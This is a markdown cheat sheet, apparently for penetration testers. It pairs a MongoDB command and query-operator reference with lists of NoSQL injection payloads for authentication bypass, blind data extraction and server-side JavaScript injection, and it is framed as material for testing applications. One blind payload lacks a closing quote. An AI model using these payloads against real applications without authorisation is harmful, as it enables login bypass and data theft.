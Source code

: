 ## MongoDB Usage

- Connect to MongoDB: `mongosh mongodb://127.0.0.1:27017`
- List databases: `show databases`
- List collections: `show collections`
- Insert data: `db.collection.insertOne({...})`
- Insert lots of data: `db.apples.insertMany([{...},{...},...])`
- Selecting data: `db.collection.find({...})`
- Selecting one piece of data: `db.collection.findOne({...})`
- Update (one) document: `db.collection.updateOne({...}, {...})`
- Update multiple documents: `db.collection.updateMany({...}, {...})`
- Delete document(s): `db.apples.remove({...})`

#### Query Operators

| Type | Operator | Description | Example |
|---|---|---|---|
| Comparison | `$eq` | Matches values which are `equal to` a specified value | `type: {$eq: "Pink Lady"}` |
| Comparison | `$gt` | Matches values which are `greater than` a specified value | `price: {$gt: 0.30}` |
| Comparison | `$gte` | Matches values which are `greater than or equal to` a specified value | `price: {$gte: 0.50}` |
| Comparison | `$in` | Matches values which exist `in the specified array` | `type: {$in: ["Granny Smith", "Pink Lady"]}` |
| Comparison | `$lt` | Matches values which are `less than` a specified value | `price: {$lt: 0.60}` |
| Comparison | `$lte` | Matches values which are `less than or equal to` a specified value | `price: {$lte: 0.75}` |
| Comparison | `$nin` | Matches values which are `not in the specified array` | `type: {$nin: ["Golden Delicious", "Granny Smith"]}` |
| Logical | `$and` | Matches documents which `meet the conditions of both` specified queries | `$and: [{type: 'Granny Smith'}, {price: 0.65}]` |
| Logical | `$not` | Matches documents which `do not meet the conditions` of a specified query | `type: {$not: {$eq: "Granny Smith"}}` |
| Logical | `$nor` | Matches documents which `do not meet the conditions` of any of the specified queries | `$nor: [{type: 'Granny Smith'}, {price: 0.79}]` |
| Logical | `$or` | Matches documents which `meet the conditions of one` of the specified queries | `$or: [{type: 'Granny Smith'}, {price: 0.79}]` |
| Evaluation | `$mod` | Matches values which divided by a `specific divisor` have the `specified remainder` | `price: {$mod: [4, 0]}` |
| Evaluation | `$regex` | Matches values which `match a specified RegEx` | `type: {$regex: /^G.*/}` |
| Evaluation | `$where` | Matches documents which `satisfy a JavaScript expression` | `$where: 'this.type.length === 9'` |


## Authentication Bypass / Data Exfiltration Payloads:

#### URL-Encoded

- `param[$ne]=x`
- `param[$gt]=`
- `param[$gte]=`
- `param[$lt]=~`
- `param[$lte]=~`
- `param[$regex]=.*`

#### JSON

- `{param: {$ne: 'x'}}`
- `{param: {$gt: ''}}`
- `{param: {$gte: ''}}`
- `{param: {$lt: '~'}}`
- `{param: {$lte: '~'}}`
- `{param: {$regex: '.*'}}`
- `{param: {$nin: []}}`

## Blind NoSQLi Payloads:

#### URL-Encoded

- `param[$regex]=^XYZ.*$`

#### JSON

- `{param: {$regex: '^XYZ.*$}}`


### Server-Side JavaScript Injection Payloads:

- ```' || true || ''=='```
- ```" || true || ""=="```

---

This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.

Some other resources you may want to refer to may be:
- [PayloadAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [HackTricks - NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [NullSweep - NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/)
